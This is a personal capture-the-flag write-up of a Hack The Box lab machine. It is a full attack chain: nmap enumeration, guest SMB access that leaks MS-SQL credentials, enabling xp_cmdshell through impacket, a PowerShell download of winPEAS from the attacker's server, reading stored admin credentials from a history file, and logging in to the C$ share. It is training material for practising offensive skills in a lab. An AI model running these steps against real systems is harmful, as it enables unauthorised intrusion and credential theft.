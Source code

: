 one of the starting point CTF's from HTB *always a great learning opportunity*

# Enumeration

## Nmap
A basic nmap scan to see what were dealing with:
```bash
$ nmap 10.129.88.67
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-24 16:55 CEST
Nmap scan report for 10.129.88.67
Host is up (0.029s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
```

seems to be **MS-SQL** and a **SMB share** let's dig a bit deeper

```bash
$ nmap -sC -sV 10.129.88.67
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-24 17:06 CEST
Nmap scan report for 10.129.88.67
Host is up (0.026s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.88.67:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.88.67:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-05-24T14:49:12
|_Not valid after:  2055-05-24T14:49:12
|_ssl-date: 2025-05-24T15:06:59+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-24T08:06:54-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-24T15:06:50
|_  start_date: N/A
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
```

## SMB
so in the Nmap output we can see that the SMB allows for guest access so let's see what we can find in there
```bash
$ smbclient -L 10.129.88.67
Password for [WORKGROUP\janosch]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

backups looks the most interesting let's have a look at that
```bash
$ smbclient //10.129.88.67/backups
Password for [WORKGROUP\janosch]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020
```

**Contents:**
```json
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

so this **SMB share** just uncovered some passwords for what seems to be the **MS-SQL** server. 

# Exploitation
## MS-SQL
Let's try to logon to the MS-SQL server with the credentials we just found. For this I'm gonna use `mssqlclient.py` from the Impacket GitHub repo.
```bash
$ mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.88.67 -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
..Snip..
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

in order to get command execution we need to enable `xp_cmdshell`

```SQL
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (ARCHETYPE\sql_svc  dbo@master)> enable_xp_cmdshell
INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE;
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
output              
-----------------   
archetype\sql_svc 
```

now we can use the `xp_cmdshell` command to run cmd or powershell commands
one of the questions from HTB hinted at using win-peas to find more so let's go ahead and do that

for that we should spin up a Python-3 http server in order to transfer the win-peas batch script over to our target
```bash
┌─[]─[10.10.15.28]─[janosch@pwnbox]─[~/notes/PEASS-ng/winPEAS/winPEASbat]
└──╼ [★]$ ls
README.md  winPEAS.bat
┌─[]─[10.10.15.28]─[janosch@pwnbox]─[~/notes/PEASS-ng/winPEAS/winPEASbat]
└──╼ [★]$ python3 -m http.server 8080
```

in order to actually download the file we will use this payload on our target:
```powershell
xp_cmdshell powershell Invoke-WebRequest -Uri "http://10.10.15.28:8080/winPEAS.bat" -OutFile "$env:USERPROFILE\Downloads\winPEAS.bat"
```

we can run it like any other bash script *just make sure to output to a file otherwise the output is lost* 
```SQL
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "call C:\Users\sql_svc\Downloads\winPEAS.bat > C:\Users\sql_svc\Downloads\Output.txt"
output                             
--------------------------------   
                            

   cription = Invalid namespace

No User exists for *               

NULL                               

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "type C:\Users\sql_svc\Downloads\Output.txt"
..Snip..
```

in the output I found one file that had something interesting in it
```SQL
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
output                                                                    
-----------------------------------------------------------------------   
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!  
```

so in the file we can see someone logging into the backups share with an admin account. The backups share already has guest access but maybe we can access the other shares with these credentials.

## SMB
In [[#SMB]] we found the C$ share let's see if the found credentials work for this
```bash
┌─[]─[10.10.15.28]─[janosch@pwnbox]─[~/notes]
└──╼ [★]$ smbclient \\\\10.129.95.187\\C$ -U administrator
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.129.95.187\C$\
```

Lets go! now we have access to the root directory now we just have to find the flags.

after some digging I found that both flags were stored on the users Desktop's
**user flag:** `C:\Users\sql_svc\Desktop\user.txt`
**root flag:** `C:\Users\administrator\Desktop\root.txt`

# Conclusion
so this was my first real windows CTF and I got stuck a lot at the windows parts especially trying to do Privilege escalation on windows was a pain, but I could do a lot with the SMB which saved my ass a bit.

**What I learned:**
- You can do a lot with MS-SQL
- File transfers are really different on Windows
- How to run scripts in windows terminals
- Always check out SMB shares with `smbclient`